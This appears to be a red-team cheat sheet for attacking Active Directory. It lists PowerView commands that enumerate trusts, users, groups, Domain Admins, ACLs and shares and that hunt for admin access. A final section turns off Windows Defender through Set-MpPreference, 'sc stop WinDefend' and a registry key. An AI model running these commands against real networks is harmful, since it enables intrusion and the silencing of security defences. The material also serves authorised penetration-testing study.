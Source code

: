 # Active Directory

> Metasploit 4 Exploitation, Empire 4 Post-Exploitation

### All Domain and Forest Trusts

```
Get-NetForestDomain -Verbose
Get-NetDomainTrust
Get-NetForestDomain -Verbose | Get-NetDomainTrust | ?{$_.TrustType -eq 'External'}
Get-NetForestDomain -Forest ab.local -Verbose | Get-NetDomainTrust
Get-NetForest
```

### Basic Enum (Powershell)

```
Get-NetUser | select Name
Get-NetGroup | select Name
Get-NetComputer | select Name
Get-NetGroupMember "Domain Admins"
Invoke-ShareFinder
Get-ObjectAcl -SamAccountName "Domain Admins"
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs
Get-NetOU select | name
Get-NetDomainTrust
Get-NetForestDomain
Get-NetForestTrust
Get-NetComputer -Domain domain_showed.local | select name
Find-LocalAdminAccess
Invoke-UserHunter
```

### Defender

```
Set-MpPreference -DisableRealtimeMonitoring $true
```

or 

```
Set-MpPreference -DisableIOAVProtection $true
```

or

```
sc stop WinDefend
```

```
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force
```
